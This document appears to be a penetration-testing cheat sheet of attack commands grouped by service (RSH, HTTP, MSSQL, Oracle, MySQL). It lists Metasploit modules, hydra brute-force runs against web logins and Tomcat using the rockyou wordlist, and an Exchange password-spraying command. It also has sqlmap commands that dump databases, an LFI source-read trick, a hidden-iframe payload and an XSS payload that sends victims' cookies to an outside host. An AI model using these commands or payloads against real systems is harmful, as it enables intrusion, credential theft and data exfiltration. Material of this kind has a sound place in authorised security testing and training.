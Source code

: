 
### RSH TCP/514:

Metasploit: `auxiliary/scanner/rservices/rsh_login`

### HTTP/HTTPS TCP/80/443:

Nmap -sV --script=http-enum --script-args http-enum.basepath=server/ -v 192.168.0.33\
Nikto -h $ip\
OpenVAS\
HTTP Methods: `nmap $ip -p80,443 -script http-methods --script-args http-methods.url-path='/server' -oA http-methods `\
HTTP options: `curl -vX OPTIONS http://10.10.10.59/`\
Shellshock: `git clone https://github.com/nccgroup/shocker`\
HTTP Put: `nmap --script http-put --script-args http-put.url='',http-put.file=''`\
HTTP Move:`curl -X Move --header`\
HTTP Move: Metasploit: `exploit/windows/iis/iis_webdav_upload_asp`\
XSS iframe test: `<iframe src="http://malicious-url/content" height="0" width="0"></iframe>`\
XSS steal cookies: `<script>new image().src="http://192.168.0.1/submission.php?stolen_data="+document.cookie;</script>`\
RFI Enumeration: `https://github.com/kurobeats/fimap`\
LFI/PHP filter: `curl -s http://vulnerale-page/?page=php://filter/convert.base64-encode/resource=index | base64 -d`\
PHPinfo exploit: `https://github.com/kurobeats/fimap/wiki/FimapPhpInfoExploit`\
LFI: `http://www.insomniasec.com/publications/LFI%20With%20PHPInfo%20Assistance.pdf`\
Exchange tools: `Brute-EWS -TargetList .\userids.txt -ExchangeVersion 2007_SP1  -ewsPath "https://owa.domain.com/EWS/Exchange.asmx" -Password "omg123" -Domain "domain.com"`\
HTTP Brute force (Simple post): `hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP -V http-form-post '/login:username=^USER^&password=^PASS^&submit=Login:F=failed' -t 40
`\
Apache Tomcat Manager: `hydra -L tomcat-users.txt -P rockyou.txt -f $IP http-get /manager/html`

### SQL TCP/1433:

NMAP Enumeration: `nmap 10.10.10.59 -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER`\
SQLMap Enumeration: `sqlmap -R`\
SqlNinja\
MSDat - Micrsoft Database Attacking Tool: `https://github.com/quentinhardy/msdat`

### Oracle
odat standaline tool: `https://github.com/quentinhardy/odat/releases/download/2.2.1/odat-linux-libc2.5-i686.tar.gz`

### MySQL/3306:
Fingerpring (-f) SQL with SQLMap: `sqlmap -r request.txt -f`\
Dump databases (--dbs) SQL with SQLMap: `sqlmap -r request.txt -D mysql --dbs --dump`\
Dump tables in DB (--db test --tables) SQL with SQLMap: `sqlmap -r request.txt -D mysql --D test --tables --dump`
